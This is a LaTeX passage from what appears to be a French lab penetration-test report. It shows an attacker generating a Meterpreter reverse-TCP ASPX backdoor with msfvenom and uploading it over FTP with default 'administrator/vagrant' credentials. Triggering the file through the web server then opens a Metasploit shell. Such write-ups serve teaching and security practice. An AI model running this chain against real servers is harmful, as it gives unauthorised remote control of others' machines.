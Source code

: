 \documentclass[a4paper]{article}
\begin{document}
\begin{enumerate}
\begin{example}
\begin{example}
\begin{Verbatim}[fontsize=\footnotesize]
05-02-21  02:12AM               384916 six_of_diamonds.zip
05-23-21  02:09AM       <DIR>          TDXUSQPTXD
05-02-21  02:15AM               184946 welcome.png
05-23-21  01:33AM       <DIR>          XUIAOKAYLH
05-23-21  01:26AM       <DIR>          XWLKGEXSSP
05-23-21  02:11AM       <DIR>          ZMAVMPFZIQ
\end{Verbatim}
        \end{example}
        \textcolor{blue}{\textbf{Bonne nouvelle !}} On arrive dans le dossier qui est utilisé par le serveur web (port 80) pour stocker ses fichiers web.
    \end{example}
    \item Comme le service derrière le port 80 est un serveur asp.net, pour l'attaquer, on a besoin d'un exécutable aspx. Après l'avoir mis sur le serveur ftp, on va aller sur l'url: http://192.168.1.4:80/backdoor.aspx, pour activer la backdoor et obtenir un accès à la machine.
    \begin{example}
        Commandes utilisées:
        \begin{itemize}
            \item \texttt{\footnotesize msfvenom -{}-list format}
            \item \texttt{\footnotesize msfvenom -p windows/x64/meterpreter/reverse\_tcp -f aspx} \\ \texttt{\footnotesize LHOST=192.168.1.3 LPORT=4444 -o backdoor.aspx}
            \item \texttt{\footnotesize ftp 192.168.1.4}
            \item \texttt{\footnotesize administrator}
            \item \texttt{\footnotesize vagrant}
            \item \texttt{\footnotesize put backdoor.aspx}
            \item \texttt{\footnotesize exit}
            \item \texttt{\footnotesize use exploit/multi/handler}
            \item \texttt{\footnotesize set payload windows/x64/meterpreter/reverse\_tcp}
            \item \texttt{\footnotesize set LHOST 192.168.1.3}
            \item \texttt{\footnotesize set LPORT 4444}
            \item \texttt{\footnotesize run}
        \end{itemize}
        C'est une \textcolor{blue}{\textbf{réussite}}, après avoir été sur le lien, on obtient bien un accès avec meterpreter au serveur, comme on peut le voir sur le terminal du dessus de la figure \ref{fig:ftpSuccess}.

\end{example}
\end{enumerate}
\end{document}

